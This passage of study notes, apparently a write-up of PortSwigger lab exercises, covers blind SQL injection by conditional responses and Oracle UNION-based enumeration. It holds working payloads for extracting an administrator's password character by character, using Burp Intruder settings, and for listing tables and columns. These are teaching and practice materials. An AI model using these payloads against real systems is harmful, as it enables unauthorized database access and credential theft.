 [PortSwigger Lab: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

#### Blind SQLi Conditional Response

> This blind SQL injection is _**identified**_ by a small message difference in the responses. When sending a valid true SQL query the response contain `Welcome back` string in response. Invalid false SQL query statement do not contain the response conditional message.

```
' AND '1'='1
```

> False SQL statement to _**identify**_ conditional message not in response.

```
' AND '1'='2
```

> Determine how many characters are in the password of the administrator user. To do this, change the SQL statement value to and in intruder **Settings tab**, at the "Grep - Match" section. Clear any existing entries in the list, and then add the value `Welcome back` to _**identify**_ true condition.

```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

> Next step is to test the character at each position to determine its value. This involves a much larger number of requests.

```
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

> Alternative use a **CLUSTER Bomb** attack and setting **two** payload positions, first one for the character position with a payload of numbers `1..20` and the second position, using alpha and number characters, this will iterate through each permutation of payload combinations.

[PortSwigger Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

#### Oracle

> Identified SQL injection by adding a **single quote** to the end of the `category` parameter value and observing response of `500 Internal Server Error`.

> Retrieve the list of tables in the Oracle database:

```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

> Oracle payload to retrieve the details of the columns in the table.

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_XXX'--
```

> Oracle payload to retrieve the usernames and passwords from Users\_XXX table.
